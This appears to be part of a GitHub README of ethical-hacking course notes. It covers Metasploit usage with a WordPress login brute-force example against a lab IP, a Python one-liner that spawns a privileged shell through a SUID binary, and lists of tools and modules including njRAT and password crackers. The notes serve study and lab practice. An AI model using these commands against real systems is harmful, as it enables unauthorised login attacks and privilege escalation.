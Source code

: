 ## _metasploit_

```sh
# start metasploit
msfconsole
# search for the exploit
search <exploit_name>
# use the exploit
use <exploit_name>
# show options
show options
# set the target
set RHOST <target_ip>
# run the exploit
run
# example
use auxilliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
set RHOSTS 10.10.10.10  (target ip)
set RPORT 8080          (target port)
set TARGETURI http://10.10.10.10:8080/
set USERNAME admin
```

## _SUID Binaries for Privilege Escalation_

```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## _others_

* [行為分析](https://ithelp.ithome.com.tw/articles/10188209)
* [PEiD工具主要的功能是什麼？](https://felo.ai/search/RGkYWRa-6J16ufLhcwbbT)
* [sudo](https://osslab.tw/books/linux-administration/page/sudo)
* [‘strings’ Linux Command | Extracting Strings in Binary Files](https://ioflood.com/blog/strings-linux-command/)
* [ExifTool Command-Line Examples](https://exiftool.org/examples.html)
* [CyberChef](https://gchq.github.io/CyberChef/)
* [crackstation](https://crackstation.net/)

```sh
visudo

openvas >> scans >> tasks

Moudule 06 / OpenStego     //picture
Moudule 06 / ophcrack

Module 07 / Trojans Types /njRAT         //trajon
Module 07 / Malware Analysis Tools / PEiD
Module 07 / Malware Analysis Tools / DIE

Moudule 20 / HashMyFiles
Moudule 20 / VeraCrypt
Moudule 20 / CrypTool
```

## License

MIT
